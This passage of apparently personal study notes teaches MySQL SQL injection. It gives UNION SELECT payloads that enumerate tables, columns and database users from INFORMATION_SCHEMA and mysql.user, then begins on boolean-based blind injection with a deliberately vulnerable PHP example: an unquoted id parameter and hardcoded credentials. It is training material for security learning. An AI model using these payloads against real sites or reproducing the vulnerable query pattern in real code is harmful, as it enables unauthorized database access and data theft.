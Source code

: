 ### Table Enumeration
The *INORMATION_SCHEMA.TABLES* table contains all the table names on its *TABLE_NAME* column.
```MySQL
'union select 1,TABLE_NAME,3,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES-- -
```
![[table_enum.png]]
### Column Enumeration
The *INORMATION_SCHEMA.COLUMNS* table contains all the column names on its *COLUMN_NAME* column.
```MySQL
'union select COLUMN_NAME,TABLE_NAME,3,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS-- -
```
![[column_enum.png]]
![[group_concat_and_hex.png]]
### Username Enumeration
To find out what user you are currently logged in as, inject any of the following: `user()`, `current_user()`, `user from mysql.user`.
```MySQL
'union select 1,user(),current_user(),4-- -
'union select 1,user,3,4 from mysql.user
```

# Blind
## Boolean-Based
There may be the time where won't have any on screen feedback of the submitted queries. However looking closely depending on the query submitted we may spot differences on the site's *status code*, *content-length*, etc. If that's the case, we need to try to retrieve our data via boolean queries. Let's go through this kind of injection by analyzing an example.

```PHP
<?php
	$server = "localhost";
	$username = "s4vitar";
	$password = "s4vitar123";
	$database = "Hack4u";
	
	//Conexion a la base de datos
	$conn = new mysqli($server, $username, $password, $database);
	//sanitization
	$id = mysqli_real_escape_string($conn, $_GET['id']);
	//echo $id;

	$query = "select username from users where id = $id";

	$result = mysqli_query($conn, $query);
	$response = mysqli_fetch_array($result);

	if (! isset($response['username'])){
		http_response_code(404);
	}
?>
```
The [[Connection With DBMS|PHP]] code from above is establishing a connection with a [[MySQL]] DB's and sending the following query:
```MySQL
select username from users where id = $id #Where $id would correspond to the user input
```
We also see that user input is being sanitized, so we'll avoid the usage of quotes or double quotes. Lastly we see that if the user enters a non-existent ID, the page will return a *404* status code and there lays the logic that we are going to exploit.